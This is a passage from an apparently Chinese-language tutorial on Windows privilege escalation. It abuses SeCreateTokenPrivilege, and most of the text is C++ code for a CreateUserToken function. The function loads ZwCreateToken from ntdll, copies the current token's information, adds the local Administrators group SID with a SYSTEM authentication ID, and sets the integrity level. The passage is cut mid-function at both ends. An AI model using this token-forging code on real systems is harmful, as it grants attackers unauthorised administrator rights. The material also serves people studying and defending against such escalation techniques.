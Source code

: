 ```c++
	}
	return status;
}
```

接着，凭借已开启的 SeCreateTokenPrivilege 特权，调用 `CreateUserToken()` 函数创建新令牌。

### Create User Token

`CreateUserToken()` 函数的定义如下。

```c++
HANDLE CreateUserToken(HANDLE hToken)
{
	NTSTATUS Status;
	HANDLE pElevatedToken = NULL;
	PTOKEN_USER pTokenUser = NULL;
	PTOKEN_PRIVILEGES pTokenPrivileges = NULL;
	PTOKEN_GROUPS pTokenGroups = NULL;
	PTOKEN_PRIMARY_GROUP pTokenPrimaryGroup = NULL;
	PTOKEN_DEFAULT_DACL pTokenDefaultDacl = NULL;
	TOKEN_SOURCE tokenSource;
	PTOKEN_OWNER pTokenOwner = NULL;
	SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService), SecurityImpersonation, SECURITY_STATIC_TRACKING, FALSE };
	OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
	LUID AuthenticationId = SYSTEM_LUID;
	LARGE_INTEGER ExpirationTime;

	_ZwCreateToken ZwCreateToken;

	PISID pSid = NULL;
	SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32, DOMAIN_ALIAS_RID_ADMINS } };
	SID_INTEGRITY IntegrityMediumSID = { 1, 1, SECURITY_MANDATORY_LABEL_AUTHORITY, SECURITY_MANDATORY_MEDIUM_RID };

	HANDLE hThread = NULL;

	ZwCreateToken = (_ZwCreateToken)GetProcAddress(LoadLibraryA("ntdll"), "ZwCreateToken");
	if (ZwCreateToken == NULL) {
		printf("[-] Failed to load ZwCreateToken: %d\n", GetLastError());
		return NULL;
	}
	wprintf(L"[*] ZwCreateToken function loaded.\n");
	pTokenUser = (PTOKEN_USER)GetTokenInfo(hToken, TokenUser);

	strcpy_s(tokenSource.SourceName, TOKEN_SOURCE_LENGTH, "User32");
	AllocateLocallyUniqueId(&tokenSource.SourceIdentifier);

	pTokenPrivileges = (PTOKEN_PRIVILEGES)LocalAlloc(LMEM_FIXED, sizeof(TOKEN_PRIVILEGES) + (sizeof(LUID_AND_ATTRIBUTES) * 4));
	pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);
	SetTokenPrivileges(pTokenPrivileges);
	pTokenGroups = (PTOKEN_GROUPS)GetTokenInfo(hToken, TokenGroups);
	pTokenPrimaryGroup = (PTOKEN_PRIMARY_GROUP)GetTokenInfo(hToken, TokenPrimaryGroup);
	pTokenDefaultDacl = (PTOKEN_DEFAULT_DACL)GetTokenInfo(hToken, TokenDefaultDacl);

	for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
	{
		if (pTokenGroups->Groups[i].Attributes & SE_GROUP_INTEGRITY)
		{
			memcpy(pTokenGroups->Groups[i].Sid, &IntegrityMediumSID, sizeof(IntegrityMediumSID));
			wprintf(L"[*] Set the token integrity level to medium.\n");
```